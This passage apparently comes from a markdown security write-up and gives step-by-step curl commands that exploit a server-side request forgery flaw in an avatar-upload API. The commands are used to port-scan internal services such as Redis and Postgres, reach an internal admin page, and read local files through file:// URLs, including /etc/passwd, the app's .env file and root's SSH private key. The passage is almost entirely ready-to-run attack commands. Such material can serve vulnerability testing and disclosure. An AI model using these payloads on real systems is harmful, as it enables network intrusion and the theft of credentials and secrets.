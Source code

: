 ### 2. Internal Network Reconnaissance

**Objective**: Scan internal network services and gather information

```bash
# Port scanning internal services
for port in 22 80 443 3306 5432 6379 8080; do
  curl -X POST http://localhost:3000/api/users/avatar \
       -H "Authorization: Bearer $TOKEN" \
       -H "Content-Type: application/json" \
       -d "{\"imageUrl\":\"http://localhost:$port\",\"fetchFromUrl\":true}"
done

# Database service discovery
curl -X POST http://localhost:3000/api/users/avatar \
     -H "Authorization: Bearer $TOKEN" \
     -H "Content-Type: application/json" \
     -d '{"imageUrl":"http://localhost:5432","fetchFromUrl":true}'

# Redis service access
curl -X POST http://localhost:3000/api/users/avatar \
     -H "Authorization: Bearer $TOKEN" \
     -H "Content-Type: application/json" \
     -d '{"imageUrl":"http://localhost:6379/info","fetchFromUrl":true}'

# Internal web services
curl -X POST http://localhost:3000/api/users/avatar \
     -H "Authorization: Bearer $TOKEN" \
     -H "Content-Type: application/json" \
     -d '{"imageUrl":"http://192.168.1.100:8080/admin","fetchFromUrl":true}'
```

### 3. Local File Inclusion Attacks

**Objective**: Read sensitive files from the server filesystem

```bash
# Read system files
curl -X POST http://localhost:3000/api/users/avatar \
     -H "Authorization: Bearer $TOKEN" \
     -H "Content-Type: application/json" \
     -d '{"imageUrl":"file:///etc/passwd","fetchFromUrl":true}'

# Read application configuration
curl -X POST http://localhost:3000/api/users/avatar \
     -H "Authorization: Bearer $TOKEN" \
     -H "Content-Type: application/json" \
     -d '{"imageUrl":"file:///app/.env","fetchFromUrl":true}'

# Read SSH keys
curl -X POST http://localhost:3000/api/users/avatar \
     -H "Authorization: Bearer $TOKEN" \
     -H "Content-Type: application/json" \
     -d '{"imageUrl":"file:///root/.ssh/id_rsa","fetchFromUrl":true}'

# Read database files
curl -X POST http://localhost:3000/api/users/avatar \
     -H "Authorization: Bearer $TOKEN" \
     -H "Content-Type: application/json" \
     -d '{"imageUrl":"file:///var/lib/postgresql/data/postgresql.conf","fetchFromUrl":true}'
```
